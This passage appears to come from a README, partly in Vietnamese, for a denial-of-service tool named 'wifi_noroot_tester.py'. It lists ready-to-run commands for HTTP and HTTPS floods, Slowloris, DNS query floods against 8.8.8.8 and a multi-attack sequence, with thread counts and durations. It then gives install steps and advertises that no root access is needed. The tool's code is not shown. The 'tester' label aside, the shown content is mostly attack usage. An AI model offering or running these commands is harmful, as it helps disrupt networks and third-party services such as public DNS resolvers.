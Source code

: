 #### **HTTP GET Flood**
```bash
python3 wifi_noroot_tester.py --http-flood -t http://192.168.1.1 --threads 50 --duration 60
```

#### **HTTPS Flood**
```bash
python3 wifi_noroot_tester.py --https-flood -t https://192.168.1.1 --threads 30 --duration 60
```

#### **Slowloris Attack**
```bash
python3 wifi_noroot_tester.py --slowloris -t 192.168.1.1 -p 80 --threads 200 --duration 300
```

#### **DNS Query Flood**
```bash
python3 wifi_noroot_tester.py --dns-flood -t 8.8.8.8 --threads 30 --duration 60
```

#### **Multi-Attack Sequence**
```bash
python3 wifi_noroot_tester.py --multi-attack --duration 90
```

## 📦 **Cài Đặt**

### **1. Cài Dependencies**
```bash
pip3 install -r noroot_requirements.txt
```

### **2. Cấp Quyền Thực Thi**
```bash
chmod +x *.py *.sh
```

### **3. Chạy Ngay**
```bash
./quick_noroot.sh
```

## 🎯 **Ưu Điểm No-Root**

### ✅ **Không Cần Root**
- Chạy với quyền user thông thường
- Không cần sudo hoặc quyền administrator
- An toàn hơn cho hệ thống

### ✅ **Dễ Sử Dụng**
- Không cần cấu hình phức tạp
- Không cần cài driver đặc biệt
- Chạy trên mọi Linux distribution
